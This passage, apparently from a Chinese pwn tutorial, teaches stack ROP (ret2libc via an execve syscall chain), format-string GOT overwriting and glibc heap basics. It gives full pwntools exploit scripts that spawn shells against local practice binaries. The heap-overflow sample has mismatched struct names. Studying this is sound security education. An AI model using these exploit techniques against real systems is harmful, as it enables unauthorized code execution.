程序中常常有像 puts、gets 等 libc 提供的库函数，这些函数在内存中的地址会写在程序的 GOT 表中，当程序调用库函数时，会在 GOT 表中读出对应函数在内存中的地址，然后跳转到该地址执行，如下图。



先利用 puts 函数打印库函数的地址，减掉该库函数与 libc 加载基地址的偏移，就可以计算出 libc 的基地址。程序中的 GOT 表如下图。



puts 函数的地址被保存在 0x601018 位置，只要调用 puts(0x601018)，就会打印 puts 函数在 libc 中的地址。

```python
#!/usr/bin/python3
from pwn import *
p=process('./rop')

# pop_rdi=0x4005d3
# puts_got=0x601018
# puts=0x400430
p.sendline(b'a'*18+p64(0x4005d3)+p64(0x601018)+p64(0x400430))
p.recvuntil('\n')

addr=u64(p.recv(16).ljust(8,b'\x00'))
print(hex(addr))
# 0xa7f776dfe46a0
```

根据 puts 函数在 libc 库中的偏移地址，可以计算出 libc 的基地址，然后利用 libc 中的 Gadget 构造可以执行 `/bin/sh` 的 ROP，从而获得 shell。可以直接调用 libc 中的 system 函数，也可以使用 syscall 系统调用来完成。

以系统调用为例，通过查询系统调用表，可以知道 execve 的系统调用号为 59，想要实现任意命令执行，需要把参数设置为：

```
execve("/bin/sh", 0, 0)
```

在 x64 位操作系统上，设置方式为在执行 syscall 前将 rax 设为 59，rdi 设为字符串 `/bin/sh` 的地址，rsi 和 rdx 设为 0。字符串 `/bin/sh` 可以在 libc 中找到，不需要另外构造。

虽然不能直接改写寄存器中的数据，但是可以将要写入寄存器的数据和 Gadget 一起入栈， 将这些数据写入寄存器。Ubuntu 16.04 中 libc 位于 `/lib/x86_64-linux-gnu/libc-2.23.so`，可以从 libc 中找到需要的 Gadget：

```
ubuntu@ubuntu:~/Desktop/ROPgadget$ python3 ROPgadget.py --binary /lib/x86_64-linux-gnu/libc-2.23.so --ropchain
```

```
ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

	[+] Gadget found: 0x123152 mov qword ptr [rsi], rdi ; ret
	[+] Gadget found: 0x202f8 pop rsi ; ret
	[+] Gadget found: 0x21112 pop rdi ; ret
	[-] Can't find the 'xor rdi, rdi' gadget. Try with another 'mov [reg], reg'

	[+] Gadget found: 0xe7bfa mov qword ptr [rdx], rdi ; ret
	[+] Gadget found: 0x1b92 pop rdx ; ret
	[+] Gadget found: 0x21112 pop rdi ; ret
	[-] Can't find the 'xor rdi, rdi' gadget. Try with another 'mov [reg], reg'

	[+] Gadget found: 0x9eda4 mov qword ptr [rdx], rcx ; ret
	[+] Gadget found: 0x1b92 pop rdx ; ret
	[+] Gadget found: 0xea79a pop rcx ; pop rbx ; ret
	[-] Can't find the 'xor rcx, rcx' gadget. Try with another 'mov [reg], reg'

	[+] Gadget found: 0x2e1ac mov qword ptr [rdx], rax ; ret
	[+] Gadget found: 0x1b92 pop rdx ; ret
	[+] Gadget found: 0x3a738 pop rax ; ret
	[+] Gadget found: 0x8b945 xor rax, rax ; ret

- Step 2 -- Init syscall number gadgets

	[+] Gadget found: 0x8b945 xor rax, rax ; ret
	[+] Gadget found: 0xabfc0 add rax, 1 ; ret
	[+] Gadget found: 0x8f8ab add eax, 1 ; ret
	[+] Gadget found: 0x6b429 add al, 1 ; ret

- Step 3 -- Init syscall arguments gadgets

	[+] Gadget found: 0x21112 pop rdi ; ret
	[+] Gadget found: 0x202f8 pop rsi ; ret
	[+] Gadget found: 0x1b92 pop rdx ; ret

- Step 4 -- Syscall gadget

	[+] Gadget found: 0x26bf syscall

- Step 5 -- Build the ROP chain

#!/usr/bin/env python3
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = b''

p += pack('<Q', 0x0000000000001b92) # pop rdx ; ret
p += pack('<Q', 0x00000000003c4080) # @ .data
p += pack('<Q', 0x000000000003a738) # pop rax ; ret
p += b'/bin//sh'
p += pack('<Q', 0x000000000002e1ac) # mov qword ptr [rdx], rax ; ret
p += pack('<Q', 0x0000000000001b92) # pop rdx ; ret
p += pack('<Q', 0x00000000003c4088) # @ .data + 8
p += pack('<Q', 0x000000000008b945) # xor rax, rax ; ret
p += pack('<Q', 0x000000000002e1ac) # mov qword ptr [rdx], rax ; ret
p += pack('<Q', 0x0000000000021112) # pop rdi ; ret
p += pack('<Q', 0x00000000003c4080) # @ .data
p += pack('<Q', 0x00000000000202f8) # pop rsi ; ret
p += pack('<Q', 0x00000000003c4088) # @ .data + 8
p += pack('<Q', 0x0000000000001b92) # pop rdx ; ret
p += pack('<Q', 0x00000000003c4088) # @ .data + 8
p += pack('<Q', 0x000000000008b945) # xor rax, rax ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000abfc0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000000026bf) # syscall
```

这里需要用到的寄存器有 RAX、RDI、RSI、RDX：

```
p += pack('<Q', 0x000000000003a738) # pop rax ; ret
p += pack('<Q', 0x0000000000021112) # pop rdi ; ret
p += pack('<Q', 0x00000000000202f8) # pop rsi ; ret
p += pack('<Q', 0x0000000000001b92) # pop rdx ; ret
p += pack('<Q', 0x00000000000026bf) # syscall
```

泄露库函数地址后，接下来要做的就是控制程序重新执行 main 函数，从而读入并执行新的 ROP 链来实现任意代码执行。完整利用脚本如下：

```python
#!/usr/bin/python3
from pwn import *
p = process('./rop')
elf = ELF('./rop')

# 导入 libc 库，ubuntu 16.04 中路径为：/lib/x86_64-linux-gnu/libc-2.23.so
libc = elf.libc


# 第一步，找到 puts 函数在 libc 库中的偏移地址
pop_rdi = 0x4005d3
puts_got = 0x601018
puts = 0x400430
main = 0x400537
rop1 = b"a" * 18        # char[10] + 寄存器[8] = 18
rop1 += p64(pop_rdi)    # rdi 寄存器地址
rop1 += p64(puts_got)   # .got.plt 表中存放的 _puts 的真实地址
rop1 += p64(puts)   # .plt 表中 _puts 项的地址
rop1 += p64(main)   # main 函数地址
p.sendline(rop1)
p.recvuntil('\n')
addr = u64(p.recv(6).ljust(8,b'\x00'))  # u64 将字符传唤为数字


# 第二步，计算 libc 基地址
libc_case = addr - libc.symbols['puts'] # 计算 libc 的基地址
info("libc:0x%x", libc_case)    # 16 进制输出

# 第三步，在 libc 中寻找相应的寄存器，将参数设置为 execve("/bin/sh",0,0)
# 需要用到 rax、rdi、rsi、rdx 寄存器
pop_rax = 0x000000000003a738 + libc_case # pop rax ; ret
pop_rdi = 0x0000000000021112 + libc_case # pop rdi ; ret
pop_rsi = 0x00000000000202f8 + libc_case # pop rsi ; ret
pop_rdx = 0x0000000000001b92 + libc_case # pop rdx ; ret
syscall = 0x00000000000026bf + libc_case # syscall

# 第四步，搜索 libc 中 /bin/sh 字符串的地址
binsh =  next(libc.search(b"/bin/sh"),) + libc_case

# 第五步，设置参数为 execve("/bin/sh",0,0)
# 在 x64 位操作系统上，参数设置方式为：
# 1. 在执行 syscall 前将 rax 设为 59
# 2. rdi 设为字符串 /bin/sh 的地址（/bin/sh 可以在 libc 中找到，不需要另外构造）
# 3. rsi 和 rdx 设为 0
rop2 = b"a" * 18
rop2 += p64(pop_rax)
rop2 += p64(59)
rop2 += p64(pop_rdi)
rop2 += p64(binsh)
rop2 += p64(pop_rsi)
rop2 += p64(0)
rop2 += p64(pop_rdx)
rop2 += p64(0)
rop2 += p64(syscall)

p.recvuntil("hello\n")
p.sendline(rop2)
p.interactive()
```

运行结果：

```bash
ubuntu@ubuntu:~/Desktop/PWN$ python rop.py 
[+] Starting local process './rop': pid 4296
[*] '/home/ubuntu/Desktop/PWN/rop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
  p.recvuntil('\n')
[*] libc:0x7f10cc852000
  p.recvuntil("hello\n")
[*] Switching to interactive mode
$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
```

## 第 5 章 格式化字符串漏洞

### 5.1 漏洞原理

C 语言中常用的格式化输出函数如下：

```
int printf(const char *format, ...)
int fprintf(FILE *stream, const char *format, ...)
int sprintf(char *str, const char *format, ...)
int snprintf(char *str, size_t size, const char *format, ...);
```

以 printf 为例，在C 语言中，printf 的常规用法为：

```
printf("%s\n", "hello world!")
printf("number:%d\n", 1)
```

其中，函数第一个参数带有 %d，%s 等占位符的字符串被称为格式化字符串，占位符用于指明输出的参数值如何格式化。

占位符的语法为：

```
%[parameter][flags][field width][.precision][length]type
```

#### 5.1.1 parameter

parameter 可以忽略或者为 `n$`，n 表示此占位符是传入的第几个参数。

#### 5.1.2 flags

flags 可为 0 个或多个，主要包括：

- `+`：总是表示有符号数值的 `+` 或 `-`，默认忽略正数的符号，仅适用于数值类型。
- 空格：有符号数的输出如果没有正负号或者输出 0 个字符，则以 1 个空格作为前缀。
- `-`：左对齐，默认是右对齐。
- `#`：对于 g 与 G，不删除尾部 0 以表示精度；对于 f、F、e、E、g、G，总是输出小数点；对于 o、x、X，在非 0 数值前分别输出前缀 0、0x 和 0X，表示数制。
- `0`：在宽度选项前，表示用 0 填充。

#### 5.1.3 field width

field width 给出显示数值的最小宽度，用于输出时填充固定宽度。实际输出字符的个数不足域宽时，根据左对齐或右对齐进行填充，负号解释为左对齐标志。如果域宽设置为 `*`，则由对应的函数参数的值为当前域宽。

#### 5.1.4 precision

precision 通常指明输出的最大长度，依赖于特定的格式化类型：

- 对于 d、i、u、x、o 的整型数值，指最小数字位数，不足的在左侧补 0。
- 对于 a、A、e、E、f、F 的浮点数值，指小数点右边显示的位数。
- 对于 g、G 的浮点数值，指有效数字的最大位数。
- 对于 s 的字符串类型，指输出的字节的上限。

如果域宽设置为 `*`，则对应的函数参数的值为 precision 当前域宽。

#### 5.1.5 length

length 指出浮点型参数或整型参数的长度：

- hh：匹配 int8 大小（1 字节）的整型参数。
- h：匹配 int16 大小（2 字节）的整型参数。
- l：对于整数类型，匹配 long 大小的整型参数；对于浮点类型，匹配 double 大小的参数；对于字符串 s 类型，匹配 wchar_t 指针参数；对于字符 c 类型，匹配 wint_t 型的参数。
- ll：匹配 long long 大小的整型参数。
- L：匹配 long double 大小的整型参数。
- z：匹配 size_t 大小的整型参数。
- j：匹配 intmax_t 大小的整型参数。
- t：匹配 ptrdiff_t 大小的整型参数。

#### 5.1.6 type

type 表示如下：

| 字符 | 含义                                                         |
| ---- | ------------------------------------------------------------ |
| d、i | 有符号十进制 int 值                                          |
| u    | 十进制 unsigned int 值                                       |
| f、F | 十进制 double 值                                             |
| e、E | double 值，输出形式为十进制的 `[-]d.ddd e[+/-]ddd`           |
| g、G | double 型数值，根据数值的大小，自动选 f 或 e 格式            |
| x、X | 十六进制 unsigned int 值                                     |
| o    | 八进制 unsigned int 值                                       |
| s    | 字符串，以 `\x00` 结尾                                       |
| c    | 一个 char 类型字符                                           |
| p    | void *指针型值                                               |
| a、A | double 型十六进制表示，即 `[-]0xh.hhhh p±d`，指数部分为十进制表示的形式 |
| n    | 把已经成功输出的字符个数写入对应的整型指针参数所指的变量     |
| %    | % 字面值，不接受任何 flags、width、precision 或 length       |

如果程序中 printf 的格式化字符串是可控的，即使在调用时没有填入对应的参数，printf 函数也会从该参数位置所对应的寄存器或栈中取出数据作为参数进行读写，容易造成任意地址读写。

### 5.2 C语言中的格式化字符串

#### 5.2.1 常见输出

```c
/* 测试常见的输出类型 */
#include "stdio.h"
#include "string.h"

int main()
{
	/* 以十进制形式输出带符号整数(正数不输出符号) */
	printf("%d\n", 1024);	//1024
	printf("%d\n", -1024);	//-1024
	
	/* 以八进制形式输出无符号整数(不输出前缀O) */
	printf("%o\n", 1024);	//2000
	printf("%o\n", -1024);	//37777776000
	
	/* 以十六进制形式输出无符号整数(不输出前缀OX) */
	printf("%x\n", 1024);	//400
	printf("%x\n", -1024);	//fffffc00
	
	/* 以十进制形式输出无符号整数 */
	printf("%u\n", 1024);	//1024
	printf("%u\n", -1024);	//4294966272
	
	/* 以小数形式输出单、双精度实数 */
	printf("%f\n", 1024.11);	//1024.110000
	printf("%f\n", 1024.11111111);	//1024.111111
	printf("%f\n", -1024.11);	//-1024.110000
	printf("%f\n", -1024.11111111);	//-1024.111111
	
	/* 以指数形式输出单、双精度实数 */
	printf("%e\n", 1024.11);	//1.024110e+03
	printf("%e\n", 1024.11111111);	//1.024111e+03
	printf("%e\n", -1024.11);	//-1.024110e+03
	printf("%e\n", -1024.11111111);	//-1.024111e+03
	
	/* 以%f%e中较短的输出宽度输出单、双精度实数 */
	printf("%g\n", 1024.11);	//1024.11
	printf("%g\n", 1024.111111111111);	//1024.11
	printf("%g\n", -1024.11);	//-1024.11
	printf("%g\n", -1024.111111111111);	//-1024.11
	
	/* 输出单个字符 */
	printf("%c\n", 'a');	//a
	printf("%c\n", 97);	//a
	
	/* 输出单个字符 */
	printf("%s\n", "threekiii");	//threekiii
	printf("%s\n", "12th34rEe56k7i8i98i");	//12th34rEe56k7i8i98i
	
}
```

#### 5.2.2 标志字符为-、+、#、空格的输出

```c
/* 测试标志字符为-、+、#、空格四种 */
#include "stdio.h"
#include "string.h"

int main()
{
	/* 以十进制形式输出带符号整数(正数不输出符号) */
	printf("*%-10d*\n", 1024);	//*1024      *
	printf("*%+10d*\n", -1024);	//*     -1024*
	printf("*%2d*\n", 1024);	//*1024*
	printf("*%#d*\n", -1024);	//*-1024*
	
	/* 以八进制形式输出无符号整数(不输出前缀O) */
	printf("*%-10o*\n", 1024);	//*2000      *
	printf("*%+10o*\n", -1024);	//*37777776000*
	printf("*%o*\n", 1024);	//*2000*
	printf("*%#o*\n", -1024);	//*037777776000*
	
	/* 以十六进制形式输出无符号整数(不输出前缀OX) */
	printf("$%-10x$\n", 1024);	//$400       $
	printf("$%010x$\n", -1024);	//$00fffffc00$
	printf("$% x$\n", 1024);	//$400$
	printf("$%#x$\n", -1024);	//$0xfffffc00$
	
	/* 以十进制形式输出无符号整数 */
	printf("%-10u\n", 1024);	//1024
	printf("%+10u\n", -1024);	//4294966272
	printf("% u\n", 1024);	//1024
	printf("%#u\n", -1024);	//4294966272
	
	/* 以小数形式输出单、双精度实数 */
	printf("%-10f\n", 1024.11);	//1024.110000
	printf("%+10f\n", 1024.11111111);	//+1024.111111
	printf("% f\n", -1024.11);	//-1024.110000
	printf("%#f\n", -1024.11111111);	//-1024.111111
	
	/* 以指数形式输出单、双精度实数 */
	printf("%-10e\n", 1024.11);	//1.024110e+03
	printf("%+10e\n", 1024.11111111);	//+1.024111e+03
	printf("% e\n", -1024.11);	//-1.024110e+03
	printf("%#e\n", -1024.11111111);	//-1.024111e+03
	
	/* 以%f%e中较短的输出宽度输出单、双精度实数 */
	printf("%-10g\n", 1024.11);	//1024.11
	printf("%+10g\n", 1024.111111111111);	//  +1024.11
	printf("% g\n", -1024.11);	//-1024.11
	printf("%#g\n", -1024.111111111111);	//-1024.11
		
	/* 输出单个字符 */
	printf("%-10c\n", 'a');	//a
	printf("%+10c\n", 97);	//         a
	printf("% c\n", 'a');	//a
	printf("%#c\n", 97);	//a
		
	/* 输出单个字符 */
	printf("%-20s\n", "threekiii");	//threekiii
	printf("%+20s\n", "12th34rEe56k7i8i98i");	// 12th34rEe56k7i8i98i
	printf("% 20s\n", "threekiii"); /* 不足补空格 */	//           threekiii
	printf("%#s\n", "12th34rEe56k7i8i98i");	//12th34rEe56k7i8i98i
}
```

#### 5.2.3 精度输出

```c
/* 测试精度 */
#include "stdio.h"
#include "string.h"

int main()
{
	printf("%.3d\n", 11111);	//11111
	printf("%.3f\n", 0.22);		//0.220
	printf("%.3f\n", 0.333333);	//0.333
	printf("%.4s\n", "threekiii");	//thre
}
```

#### 5.2.4 长度输出

```c
/* 测试长度 */
#include "stdio.h"
#include "string.h"
int main()
{
	int a = 12;
	float b = 123.4567890;
	double c = 12345678.1111111;
	char d = 'p';
	printf("a=%d,%5d,%o,%x\n", a, a, a, a);	//a=12,   12,14,c

	/* %f 和 %lf 格式的输出相同，说明 l 符对 f 类型无影响 */
	/* %5.4lf 指定输出宽度为 5，精度为 4，由于实际长度超过 5，应该按实际位数输出，小数位数超过 4 位 * 部分被截去 */
	printf("b=%f,%lf,%5.4lf,%e\n", b, b, b, b);	//b=123.456787,123.456787,123.4568,1.234568e+02

	/* 输出双精度实数，%8.4lf 由于指定精度为 4 位，截去了超过 4 位的部分 */
	printf("c=%lf,%f,%8.4lf\n", c, c, c);	//c=12345678.111111,12345678.111111,12345678.1111

	/* 输出字符量 d ，其中 %8c 指定输出宽度为 8，在输出字符 p 之前补加 7 个空格*/
	printf("d=%c,%8c\n", d, d);	//d=p,       p
}
```

### 5.3 基本利用方式

通过格式化字符串漏洞可以进行任意内存的读写。

由于函数参数通过栈进行传递，因此使用 `%X$p`（X 为任意整数）可以泄露栈上的数据。在能对栈上数据进行控制的情况下，可以事先将想泄露的地址写在栈上，再使用  `%X$p`，就可以以字符串格式输出想泄露的地址。

由于 `%n` 可以将已经成功输出的字符个数写入对应的整形指针参数所指的变量，因此可以事先再在栈上布置想要写入的内存的地址。再通过 `%Yc%X$n`（Y 为想要写入的数据）就可以进行任意内存写。

#### 示例-5.3.1：格式化字符串漏洞基本利用

```c
#include<stdio.h>
#include<unistd.h>

int main(){
    setbuf(stdin, 0);
    setbuf(stdout, 0);
    setbuf(stderr, 0);
    while(1){
        char format[100];
        puts("input your name:");
        read(0, format, 100);
        printf("hello ");
        printf(format);
    }
    return 0;
}
```

Ubuntu 16.04 用如下命令编译：

```
gcc fsb.c -o fsb -fstack-protector-all -pie -fPIE -z lazy
```

在 printf 设置断点，此时 RSP 正好在输入字符串的位置，即第 6 个参数的位置（64 位 Linux 前 5 个参数和格式化字符串由寄存器传递）。输入 `AAAAAAAA%6$p`，可以看到程序将输入的 8 个 A 当作指针型变量输出了，可以进行信息泄露。

```
$ ./fsb
input your name:
AAAAAAAA%6$p
hello AAAAAAAA0x4141414141414141
```

栈中有 `__libc_start_main` 调用 `__libc_csu_init` 前压入的返回地址。

IDA 中的视图：


Pwndbg 中的视图：


`0x7fffffffde08` 在第7个参数的位置， `__libc_start_main+240` 在第 21 个参数的位置，根据这个地址，可以计算出 libc 的基地址：

```
libc_base = addr - libc.symbols['__libc_start_main']-0xf0
info("libc:0x%x", libc_base)
```

同理，`_start` 在第 17 个参数的位置，根据这个地址，可以计算出 fsb 程序的基地址：

```
base = addr - elf.symbols['_start']
info("base:0x%x", base)
```

进行以上基地址计算前，首先需要将第 17 个、第 21 个参数位置的信息进行泄露：

```
$ ./fsb
input your name:
%17$p%21$p
hello 0x561e388897c00x7feb3e68a840
```

有了 libc 基地址之后，就可以计算 system 函数的地址，然后将 GOT 表中 printf 函数的地址修改为 system 函数的地址。下一次执行 printf(format)时，实际会执行 system(format)，输入的format为 `/bin/bash` 即可获得 shell。

GOT 表中 printf 函数的地址为 `0x201028`，可以用以下两种方式寻找。

方式一，在利用脚本中通过 `elf.got` 寻找：

```
elf.got['printf']
```

方式二，直接在反编译窗口寻找：


利用脚本如下（原题目是在 Ubuntu 18.04 下编译，libc 为 libc-2.27.so，此处在 Ubuntu 16.04 下编译，libc 改用 libc-2.23.so）：

```python
# python2
from pwn import *
elf = ELF('./fsb')
libc = ELF('/lib/x86_64-linux-gnu/libc-2.23.so')
p = process('./fsb')
p.recvuntil('name:')
p.sendline('%17$p%21$p')
p.recvuntil('0x')

# 计算 fsb 程序基地址，即 _start 函数地址
addr = int(p.recvuntil('0x')[:-2],16)
base = addr - elf.symbols['_start']
info("base:0x%x", base)
addr = int(p.recvuntil('\n')[:-1],16)

# 计算 libc 基地址
libc_base = addr - libc.symbols['__libc_start_main']-0xf0
info("libc:0x%x", libc_base)

# 计算 system 函数地址
system = libc_base + libc.symbols['system']
info("system:0x%x", system)

# 将 system 地址拆分为 3 个 word
ch0 = system&0xffff
ch1 = (((system>>16)&0xffff)-ch0)&0xffff
ch2 = (((system>>32)&0xffff)-(ch0+ch1))&0xffff

# 3 个地址要放在 payload 最后
payload = "%" + str(ch0) + "c%12$hn"
payload += "%" + str(ch1) + "c%13$hn"
payload += "%" + str(ch2) + "c%14$hn"
payload = payload.ljust(48,'a')

# 将 GOT 表中 printf 函数地址修改为 system 函数地址
info("printf:0x%x", elf.got['printf'])
payload += p64(base+elf.got['printf'])
payload += p64(base+elf.got['printf']+2)
payload += p64(base+elf.got['printf']+4)

p.sendline(payload)
p.sendline(b"/bin/sh\x00")
p.interactive()
```

脚本将 system 的地址（6 字节）拆分为 3 个 word（2 字节），是因为如果一次性输出一个 int 型以上的字节，printf 会输出几 GB 的数据，在攻击远程服务器时速度很慢，或导致 broken pipe。

注意，在 64 位的程序中，地址往往只占 6 字节，高位的 2 字节必然是 `\x00`，所以 3 个地址一定要放在 payload 最后，而不是放在最前面。虽然放在最前面偏移量更好计算，但是 printf 输出字符串时到 `\x00` 为止，地址中的 `\x00` 会截断字符串，之后用于写入地址的占位符并不会生效。

### 5.4 不在栈上的利用方式

（待补）

### 5.5 一些特殊用法

格式化字符串有时会遇到一些比较少见的占位符，如 `*` 表示取对应函数参数的值来作为宽度

### 5.6 总结

（待补）

## 第 6 章 堆利用

### 6.1 什么是堆

堆（chunk）内存是一种允许程序在运行过程中动态分配和使用的内存区域。相比于栈内存和全局内存，堆内存没有固定的声明周期和固定的内存区域，程序可以动态地申请和释放不同大小的内存。被分配后，如果没有进行明确的释放操作，该堆内存区域都是一直有效的。

为了进行高效的堆内存分配、回收和管理，Glibc 实现了 Ptmalloc2 的堆管理器。本节主要介绍 Ptmalloc2 堆管理器缺陷的分析和利用。这里只介绍 Glibc 2.25 版本最基本的结构和概念，以及 2.26 版本的新加入特性。

Ptmalloc2 堆管理器分配的最基本内存结构为 chunk。chunk 基本的数据结构如下：

```c
struct malloc_chunk {
  INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */
  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;
  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};
```

其中，mchunk_size 记录了当前 chunk 的大小，chunk 的大小都是 8 字节对齐，所以 mchunk_size 的低 3 位固定为 0。为了充分利用内存空间，mchunk_size 的低 3 位分别存储 PREV_INUSE、IS_MAPPED、NON_MAIN_ARENA 信息，堆管理器可以通过这些信息找到前一个被释放 chunk 的位置。

- NON_MAIN_ARENA：记录当前 chunk 是否不属于主线程，1 表示不属于，0 表示属于。
- IS_MAPPED：记录当前 chunk 是否是由 mmap 分配的。
- PREV_INUSE：记录前一个 chunk 块是否被分配，如果与当前 chunk 向上相邻的 chunk 为被释放的状态，则该标志位为 0，并且 mchunk_prev_size 的大小为该被释放的相邻 chunk 的大小。

chunk 在管理器中有 3 种形式，分别为 allocated chunk、free chunk、top chunk。在 64 位系统中，chunk 结构最小为 32（0x20）字节。

- allocated chunk：当用户申请一块内存后，堆管理器会返回一个 allocated chunk，其结构为 mchunk_prevsize + mchunk_size + user_memory。user_memory 为可被用户使用的内存空间。
- free chunk：为 allocated chunk 被释放后的存在形式。
- top chunk：是一个非常大的 free chunk，如果用户申请内存大小比 top chunk 小，则由 top chunk 分割产生。

为了高效地分配内存并尽量避免内存碎片，Ptmalloc2 将不同大小的 free chunk 分为不同 bin 结构，分别为 Fast Bin、Small bin、Unsorted Bin、Large Bin。

#### 6.1.1 Fast Bin

Fast Bin 分类的 chunk 的大小为 32-128（0x80）字节，如果 chunk 在被释放时发现其大小满足这个要求，则将该 chunk 放入 Fast Bin，且在被释放后不修改下一个 chunk 的 PREV_INUSE 标志位。

Fast Bin 在堆管理器中以单链表的形式存储，不同大小的 Fast Bin 存储在对应大小的单链表结构中，其单链表的存取机制是 LIFO（后进先出）。

一个最新被加入 Fast Bin 的 chunk，其 fd 指针指向上一次加入的 Fast Bin 的 chunk。

#### 6.1.2 Small Bin

Small Bin 分类的 chunk 的大小为32-1024（0x400）字节的 chunk，每个放入其中的 chunk 为双链表结构，不同大小的 chunk 存储在对应的链接中。

由于是双链表结构，其速度比 Fast Bin 慢一些，其存取机制是 FIFO（先进先出）。

#### 6.1.3 Unsorted Bin

Unsorted Bin 相当于 Ptmalloc2 堆管理器的垃圾桶。chunk 被释放后，会先加入 Unsorted Bin 中，等待下次分配使用。在堆管理器的 Unsorted Bin 不为空时，用户申请非 Fast Bin 大小的内存会先从 Unsorted Bin 中查找，如果找到符合该申请大小要求的 chunk（等于或者大于），则直接分配或者分割该chunk。

#### 6.1.4 Large Bin

大于 1024（0x400）字节的 chunk 使用 Large Bin 进行管理。Large Bin 的结构相对于其他 Bin 是最复杂的，速度也是最慢的，相同大小的 Large Bin 使用 fd 和 bk 指针连接，不同大小的 Large Bin 通过 fd_nextsize 和 bk_nextsize 按大小排序连接。

### 6.2 简单的堆溢出

堆溢出是最简单也是最直接的软件漏洞。堆通常会存储各种结构体，通过堆溢出覆盖结构体进而篡改结构体信息，往往可以造成远程代码执行等严重漏洞。

示例：

```c
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

struct AA {
    char buf[0x20];
    void (*func)(char*);
};

void out(char *buf) {
    puts(buf);
}

void vuln() {
    struct AAA *a =  malloc(sizeof(struct A));
    a->func = out;
    read(0, a->buf, 0x30);
    a->func(a->buf);
}

void main() {
    vuln();
}
```

以上示例中，结构体 AAA 中 buf 的大小为 32 字节，但读入了 48 字节的字符，过长的字符直接覆盖了结构体中的函数指针，进而调用该函数指针时实现了对程序控制流的劫持。

### 6.3 堆内存破坏漏洞利用

工具：

- https://github.com/pwndbg/pwndbg
- https://github.com/shellphish/how2heap

#### 6.3.1 Glibc 调试环境搭建

